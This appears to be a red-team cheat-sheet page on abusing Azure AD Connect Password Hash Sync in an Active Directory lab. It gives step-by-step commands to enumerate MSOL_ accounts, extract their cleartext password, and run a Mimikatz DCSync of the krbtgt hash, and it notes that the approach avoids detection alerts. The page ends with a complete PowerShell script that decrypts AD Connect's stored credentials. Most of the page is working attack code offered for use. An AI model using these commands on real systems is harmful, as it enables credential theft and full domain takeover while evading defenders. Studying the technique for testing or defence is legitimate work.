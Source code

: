 # 1 Azure AD Integration PHS

## Cross Domain Attacks \[ Azure AD Integration ]

### Methodology/Steps

> 1. Enumerate the users accounts who have **MSOL\_** attribute identity.
> 2. Start a process with the priv of that user
> 3. Execute adconnect ps1 script, this will provide the creds of the user
> 4. Connect using runas and perform a DCSync Attack

***

### PowerShell

#### 1. Enumerate the PHS account and server where AD Connect is installed

```powershell
# Powerview
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local

# AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

#### 2. Dump the creds of the user and logon

> With administrative privileges, if we run adconnect.ps1, we can extract the credentials of the MSOL\_ account used by AD Connect in clear-text Note: Adconnect.ps1 script's code runs powershell.exe so verbose logs (like transcripts) will be there.

```powershell
# Adconnect
. .\adconnect.ps1
adconnect

# Runas that user
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

#### 3. Execute the DCSync attack

> Please note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the **MSOL\_** account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

***

## Abusing Azure AD Connect

* Run the following script

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

#$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
